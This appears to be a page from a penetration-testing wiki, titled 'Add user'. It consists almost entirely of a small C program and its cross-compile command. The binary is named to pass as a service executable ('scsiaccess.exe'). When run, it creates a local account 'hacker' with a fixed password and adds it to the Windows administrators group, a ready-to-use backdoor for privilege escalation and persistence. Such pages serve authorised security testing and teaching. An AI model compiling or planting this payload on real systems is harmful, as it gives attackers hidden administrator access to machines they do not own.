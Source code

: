 {{#include ../../banners/hacktricks-training.md}}

# Add user

```c
// i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c

#include <stdlib.h> /* system, NULL, EXIT_FAILURE */
int main ()
{
    int i;
    system("net user hacker Hacker123! /add");
    system("net localgroup administrators hacker /add");
    return 0;
}
```

{{#include ../../banners/hacktricks-training.md}}



